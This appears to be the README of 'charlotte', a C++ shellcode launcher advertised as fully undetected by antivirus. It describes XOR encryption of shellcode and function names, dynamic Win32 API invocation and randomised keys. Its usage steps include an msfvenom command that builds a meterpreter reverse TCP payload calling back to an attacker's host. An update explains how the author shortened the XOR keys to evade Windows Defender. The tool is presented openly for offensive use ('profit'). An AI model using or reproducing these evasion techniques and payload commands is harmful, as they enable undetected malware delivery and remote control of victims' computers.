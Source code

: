 # charlotte (Changed For Windows)
 c++ fully undetected shellcode launcher ;) (Changed For Windows)

 releasing this to celebrate the birth of my newborn 

## Original Project
@9emin1
https://github.com/9emin1/charlotte

## description
13/05/2021:

1. c++ shellcode launcher, fully undetected 0/26 as of 13th May 2021.
2. dynamic invoking of win32 api functions
3. XOR encryption of shellcode and function names
4. randomised XOR keys and variables per run
5. on Kali Linux, simply 'apt-get install mingw-w64*' and thats it!

17/05/2021:

6. random strings length and XOR keys length 

## antiscan.me

![alt_text](0-detection-charlotte.png "Pwn!")

## usage

git clone the repository, generate your shellcode file with the naming beacon.bin, and run charlotte.py

example:
1. git clone https://github.com/9emin1/charlotte.git && apt-get install mingw-w64*
2. cd charlotte
3. msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=$YOUR_IP LPORT=$YOUR_PORT -f raw > beacon.bin
4. python charlotte.py
5. profit

### tested with msfvenom -p (shown in the .gif POC below) and also cobalt strike raw format payload

![alt_text](demo-poc.gif "Pwn!")

## update v1.1 

17/05/21:

apparently Microsoft Windows Defender was able to detect the .DLL binary,

and how did they flag it? by looking for several XOR keys of 16 byte size 

changing it to 9 shown in the POC .gif below shows it is now undetected again

cheers!

![alt_text](demo-poc2.gif "Pwn!")
